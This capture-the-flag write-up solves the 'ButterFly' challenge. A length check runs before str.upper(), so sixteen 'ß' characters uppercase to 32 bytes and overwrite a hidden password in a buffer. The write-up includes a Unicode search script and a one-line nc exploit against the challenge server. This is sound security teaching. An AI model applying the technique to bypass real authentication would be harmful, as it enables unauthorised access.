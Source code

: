 The name ButterFly suggests some kind of buffer overflow. Let's examine the python script.

In summary, 
- We have a buffer of 32 bytes.
- There is a hidden password of 16 bytes, which is written on the second half (from the 17th byte) of the buffer.  
- We have to input a password which is written on the buffer from the start.  
- Finally, we get the flag if the first 16 bytes matches the other 16 bytes.

So, the first thing that comes to mind is to overwite the complete buffer with same bytes, and get the flag.  
But, there's a small restriction. In the `authenticate` function, we have a check for input length, and it has to be less than 16.
```py
if len(user_input) > 16:
        print('PLEASE INPUT A PASSWORD LESS THAN 16 CHARACTERS LONG')
        return False
```
But, it actually allows input of length upto 16, not strictly less.  
But it doesn't help much, since we can't just input a 32 character string.  
Let's read further.  
```py
user_input = user_input.upper()
```
This part is interesting, and it happens after the length check, and just before it writes the input to the buffer.  
This makes us think if there is way to change string's length by applying `str.upper()` method.  

Let's write a quick script to check if its possible.  
I iterate over all utf-8 characters, and check is `char.upper()` is of length 2.  
For iterating over utf-8 characters, I just grabbed some code from github. 

```py
#!/usr/bin/env python

def main():
    for char in utf8_iterator():
        if len(char) == 1 and len(char.upper()) == 2:
            print(char, char.upper())
            break

# from https://github.com/Lucas-C/dotfiles_and_notes/blob/master/languages/python/utf8_iterator.py
import itertools

def byte_iterator(start, end):
    for i in range(start, end):
        yield bytes((i,))

def utf8_bytestring_iterator():
    # Doc: https://en.wikipedia.org/wiki/UTF-8#Description & https://fr.wikipedia.org/wiki/UTF-8#Description
    yield from byte_iterator(0x00, 0x80)  # 2^7 characters
    for i, j in itertools.product(byte_iterator(0xc0, 0xe0),
                                  byte_iterator(0x80, 0xc0)):  # 2^11 characters
        yield b''.join((i, j))  # Some additional restrictions could be applied here (start=0xc2)
    for i, j, k in itertools.product(byte_iterator(0xe0, 0xf0),
                                     byte_iterator(0x80, 0xc0),
                                     byte_iterator(0x80, 0xc0)):  # 2^16 characters
        yield b''.join((i, j, k))  # Some additional restrictions could be applied here
    for i, j, k, l in itertools.product(byte_iterator(0xf0, 0xf8),
                                        byte_iterator(0x80, 0xc0),
                                        byte_iterator(0x80, 0xc0),
                                        byte_iterator(0x80, 0xc0)):  # 2^21 characters
        yield b''.join((i, j, k, l))  # Some additional restrictions could be applied here

def utf8_iterator():
    for bytestring in utf8_bytestring_iterator():
        try:
            yield bytestring.decode('utf8')
        except UnicodeError:
            pass

if __name__ == '__main__':
    main()
```
And we found one!  Its `ß`. And `'ß'.upper() == 'SS'`.  

We use it to get our final exploit  
```sh
#!/bin/bash
python -c "print('ß'*16)" | nc ctf.cscml.zenysec.com 20007  
```

